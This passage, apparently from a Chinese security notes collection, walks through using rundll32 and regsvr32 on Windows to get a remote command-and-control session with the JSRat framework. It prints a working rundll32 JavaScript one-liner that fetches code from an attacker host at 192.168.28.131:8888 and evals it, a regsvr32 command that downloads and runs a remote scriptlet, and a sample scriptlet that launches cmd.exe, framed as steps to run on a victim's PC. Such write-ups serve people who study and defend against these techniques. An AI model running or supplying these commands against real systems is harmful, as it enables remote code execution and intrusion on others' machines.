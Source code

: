 ![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-11.png)

**12、rundll32**

其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。

项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git

步骤一：开始运行JSRat，监听本地8888端口。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-12-1.png)

步骤二：通过url访问，可以查看恶意代码。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-12-2.png)

复制代码如下：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-12-3.png)

**13、regsvr32**

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

```
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
```

可以通过自己构造.sct文件，去下载执行我们的程序

```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>
```

执行命令，成功弹计算器：
